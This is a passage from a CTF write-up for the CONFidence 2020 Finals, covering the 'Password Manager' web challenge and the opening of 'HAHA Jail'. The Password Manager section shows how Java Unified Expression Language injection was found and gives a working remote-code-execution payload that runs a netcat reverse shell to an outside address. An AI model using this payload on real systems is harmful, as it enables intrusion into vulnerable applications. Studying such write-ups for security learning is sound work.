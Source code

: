 # CONFidence 2020 CTF Finals

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200905-confidence2020ctffinals/) of this writeup.**


 - [CONFidence 2020 CTF Finals](#confidence-2020-ctf-finals)
   - [Web](#web)
     - [Password Manager](#password-manager)
     - [HAHA Jail](#haha-jail)
     - [Yet Another Cat Challenge](#yet-another-cat-challenge)
     - [Yet Another Yet Another Cat Challenge](#yet-another-yet-another-cat-challenge)
   - [Reverse](#reverse)
     - [Team Trees](#team-trees)
   - [Crypto](#crypto)
     - [FibHash](#fibhash)


## Web

### Password Manager

This blackbox challenge has only one input box. After some fuzzing @how2hack found the input `${7*7}` will return 49.

Based on `JSESSIONID`, we know this is a Java application. After some trial and error, we google the error message and find it's `Java Unified Expression Language`.

```
> ${context}

de.odysseus.el.util.SimpleContext@5bd317d3

```

[This articile](https://pulsesecurity.co.nz/articles/EL-Injection-WAF-Bypass) demos how to RCE through this template injection.

Here is the final RCE payload:

```
${true.getClass().forName("java.lang.Runtime").getMethods()[6].invoke(true.getClass().forName("java.lang.Runtime")).exec("busybox nc 133.221.333.123 1337 -e sh")}";

# p4{inside-jar-was-juel-who-blocked-my-classes-and-made-me-use-session-giving-me-depression}
```

### HAHA Jail

The server uses [hhvm](https://github.com/facebook/hhvm) to run the php sandbox. Here is a simple hello world sample:

```
<?hh
<<__EntryPoint>>
function main(): void {
echo 123;
}
```
